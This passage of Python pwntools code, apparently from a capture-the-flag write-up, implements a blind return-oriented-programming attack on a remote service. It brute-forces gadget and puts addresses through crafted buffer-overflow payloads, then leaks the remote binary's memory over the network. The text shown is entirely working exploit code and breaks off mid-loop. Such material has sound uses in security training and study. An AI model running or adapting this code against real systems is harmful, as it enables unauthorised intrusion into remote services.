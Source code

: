 ```
            p.send(payload)
            result = p.recv()
            p.close()
            if "WelCome" in result:
                return addr
        except EOFError:
            p.close()
            
def fuzz_pop_gadget(offset, main_addr):#(3)
    addr = 0x400700
    while True:
        addr += 1
        try:
            p = remote(host, port)
            p.recvuntil("WelCome my friend,Do you know password?\n")
            payload = 'A'*offset + p64(addr) + p64(0)*6 + p64(main_addr) + p64(0)*10
            p.send(payload)
            result = p.recv(timeout=0.1)
            p.close()
            if "WelCome" in result:
                return addr
        except EOFError:
            p.close()
        except PwnlibException:
            return fuzz_pop_gadget(offset, main_addr)
                        
def fuzz_puts_addr(offset, main_addr, pop_rdi):#(4)
    addr = 0x400500
    while True:
        addr += 1
        try:
            p = remote(host, port)
            p.recvuntil("WelCome my friend,Do you know password?\n")
            payload = 'A'*offset + p64(pop_rdi) + p64(0x400000) + p64(addr) + p64(main_addr)
            p.send(payload)
            result = p.recv(timeout=0.1)
            p.close()
            if "ELF" in result:
                return addr
        except EOFError:
            p.close()

def leak_elf(logs, offset, main_addr, pop_rdi, puts_addr):#(5)
    addr = 0x400000
    start = addr
    content = ''
    while addr < (start+0x2000):
        try:
            if logs:
                logs.status("leak data: 0x%x"%(addr-0x400000))
            p = remote(host, port)
            p.recvuntil("WelCome my friend,Do you know password?\n")
            payload = 'A'*offset + p64(pop_rdi) + p64(addr) + p64(puts_addr) + p64(main_addr)
            p.send(payload)
            result = p.recvuntil("WelCome")
            result = result[:result.find("\nWelCome")]
            
            content += result
            if result == '':#如果返回为空，说明是\x00
                content += '\x00'
                addr += 1
            else:
                addr += len(result) 
```